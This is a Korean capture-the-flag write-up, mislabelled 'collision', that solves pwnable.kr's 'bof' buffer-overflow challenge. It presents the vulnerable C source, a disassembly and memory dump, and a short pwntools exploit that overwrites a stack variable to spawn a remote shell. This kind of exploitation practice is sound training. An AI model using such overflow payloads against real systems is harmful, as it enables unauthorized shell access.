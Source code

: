 # pwnable.kr : collision
## INDEX
1. 문제 정보
    + 1.1 문제 이름
    + 1.2 문제 설명
    + 1.3 문제 분야
    + 1.4 문제 정답
2. 풀이 방법
    + 2.1 풀이 환경
    + 2.2 풀이 내용
    + 2.3 exploit code
---
## 1. 문제 정보
### 1.1 문제 이름
사이트 링크 : pwnable.kr  
문제 이름 : collision
### 1.2 문제 설명
![](./img/다운로드.png)
### 1.3 문제 분야
pwnable
### 1.4 문제 정답
``` shell
seopho@seopho-virtual-machine:~/Desktop/test$ python3 test.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```
## 2. 풀이 방법
### 2.1 풀이 환경
OS : Ubuntu 18.04.6  
Architecture : x86-x64
API : pwntools  
### 2.2 풀이 내용
다운로드 링크를 들어가서 bof라는 파일과 bof.c 파일을 다운받는다. 그리고 터미널을 실행하고, nc pwnable.kr 9000 명령어를 입력하면, 다음과 같은 화면이 나온다. 사용자로부터 입력을 받는다는 것을 알 수 있다.
```
seopho@seopho-virtual-machine:~/Desktop/test$ nc pwnable.kr 9000
aaaaaaaaa
overflow me : 
Nah..
```
bof 파일이다. 실행권한이 없기 때문에 실행할 수 없다.  
```
seopho@seopho-virtual-machine:~/Desktop/test$ ls -l
total 12
-rw-rw-r-- 1 seopho seopho 7348  1월  5 21:17 bof
```
그리고 readelf 명령어를 이용해서 어떤 파일인지 확인해보도록 하자. DYN(Shared object file)인 것을 확인할 수 있다.  
즉, 실행파일이 아닌 오프젝트 파일인 것이다. bof파일은 나중에 디스어셈블을 시도해보도록 하자.  
```
seopho@seopho-virtual-machine:~/Desktop/test$ readelf -a bof
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Shared object file)
  .
  .
  .
  .
```
bof.c는 확장자명이 .c 이기 때문에, C 소스코드라는 것을 알 수 있다. 다음은 bof.c의 소스코드이다.  
``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
main()함수를 먼저 보면, func()라는 함수를 호출하고, 인자로 0xdeadbeef라는 값(int 형)을 넣는다.  
func() 함수 정의부분을 살펴보면, char형 overflowme라는 배열을 32byte만큼 선언하고, gets()함수로 overflowme에 사용자로부터 입력을 받는다. 그 다음 코드로 매개변수였던 key값(0xdeadbeef)와 0xcafebabe를 비교하여 같다면, 쉘을 실행하게 해준다.  
gets() 함수는 버퍼 오버플로우를 발생시킬 수 있는 매우 취약한 함수이다.   
func()함수는 다음과 같은 스택구조를 가질 것이다.  
overflowme[32]  
key(0xdeadbeef)  
rbp(4byte)  
ret(4byte)  
그렇기 때문에, gets()함수로 32byte이상을 입력하여, key값을 0xcafebabe로 변경시킨다. 정확히 몇 byte를 입력해야 하는지 확인하기 위해서 bof파일을 디스어셈블 해보자.  
```
seopho@seopho-virtual-machine:~/Desktop/test$ gdb bof
pwndbg> disass func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
```
bof.c 소스코드와 디스어셈블된 코드들을 대조시켜보면, overflowme가 위치하는 메모리 주소는 ebp-0x2c라는 것을 알 수 있었다. 0x0000064f <+35>: call   0x650 <func+36>에 중단점을 설정하고, 메모리를 확인해보자.  
'a'를 10번 입력하고 ebp-0x2c 메모리를 확인해보니, 정상적으로 메모리에 a(16진수로 61)가 들어간 것을 확인할 수 있다.  
```
pwndbg> b *func+35
pwndbg> r
pwndbg> ni
aaaaaaaaaa
pwndbg> x/10gx $ebp-0x2c
0xffffcf4c:	0x6161616161616161	0x00000001f7006161
0xffffcf5c:	0xf7fb43fc5655549d	0x56556ff400000000
0xffffcf6c:	0x01000000c3564c00	0xffffcf98f7e0c7ab
0xffffcf7c:	0xdeadbeef5655569f	0x565556b900000000
0xffffcf8c:	0xf7fb400000000000	0x00000000f7fb4000
```
그리고 0xffffcf7c 부분에 0xdeadbeef가 있는 것을 확인할 수 있다. 0xdeadbeef까지 입력값이 도달하기 위해서는 총52번의 dummy data를 입력해야 한다. 그 후 0xcafebabe를 입력하면, 정상적으로 쉘을 획득할 수 있을 것이다.  
### 2.3 exploit code
``` python
from pwn import*

#r = process("./bof")
r = remote("pwnable.kr",9000)
dummy = "A"*52
payload = "\xbe\xba\xfe\xca"
r.sendline(dummy+payload)

r.interactive()
```